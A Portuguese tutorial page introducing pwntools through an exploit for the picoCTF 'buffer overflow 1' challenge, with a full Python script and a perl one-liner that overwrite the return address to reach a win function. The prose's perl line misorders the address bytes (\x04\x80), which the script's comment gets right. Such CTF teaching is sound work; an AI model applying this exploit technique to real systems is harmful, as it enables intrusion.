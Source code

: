 <img width="30%" src="https://i.imgur.com/ULwPfn3.png"></img>

# pwntools
Pwntools é uma lib do python para escrever alguns exploits, tanto remotos quanto local<br>
Para introduzir em pwntools, vamos usar o challenge `buffer overflow 1` do picoctf, o mesmo que exploramos anteriormente<br><br>

<img src="https://i.imgur.com/12a8qd6.png" width="60%"><br><br>

Esse exploit, é equivalente ao que haviamos usado anteriormente `perl -e 'print "a"x44 . "\xcb\x85\x04\x80"'`<br>

## Features
Comece sempre importando o pwntools `from pwn import *`<br>

* *pack address 32 bits*
* *pack address 64 bits*
* *send payload*
* *interactive shell*<br><br>

## Source
```python
from pwn import *

# arch
context(arch="i386", os="linux")
p = process("/problems/buffer-overflow-1_0_787812af44ed1f8151c893455eb1a613/vuln")

# payload
# offset EIP 44
# address of win is 0x080485cb

'''
perl -e 'print "a"x44 . "\xcb\x85\x04\x08"'
'''

buf = "a"*44
buf += p32(0x080485cb)

# send exploit
p.sendline(buf)
p.interactive()
```
<br><br>
[pwn](../README.md)<br>
[home](../../README.md)
